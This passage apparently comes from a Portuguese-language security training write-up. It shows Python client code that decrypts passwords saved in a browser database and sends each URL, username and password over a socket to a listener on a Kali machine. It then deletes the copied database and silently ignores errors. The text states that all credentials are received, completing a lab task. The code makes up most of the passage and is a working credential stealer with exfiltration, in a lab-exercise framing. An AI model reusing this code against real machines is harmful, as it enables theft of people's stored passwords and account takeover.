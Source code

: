 ```python
        url = i[0]
        user = i[1]
        password = i[2]
        password = decrypt_pwd(password, key)
        if len(user) > 0:
            # cria a string no formato desejado
            dump = "\nURL: " + url + "\nUser: " + user + "\nPassword: " + password + "\n\n"
            # codifica em bytes
            dump = bytes(dump, "utf-8")
            # envia via socket
            s.sendall(dump)
except Exception as e:
    pass

# finaliza a conexao com o database
cursor.close()
connect.close()

# remove a copia do db
try:
    os.remove("database.db")
except Exception as e:
    pass
```

Ao iniciar o handler com o script server na máquina Kali e rodar o client no Windows, recebemos em tela todas as credenciais.

<center><img src="/img/std/dojo/dojo-14.png"></center>

Estas atualizações finalizam a task 05.

## Task \x06
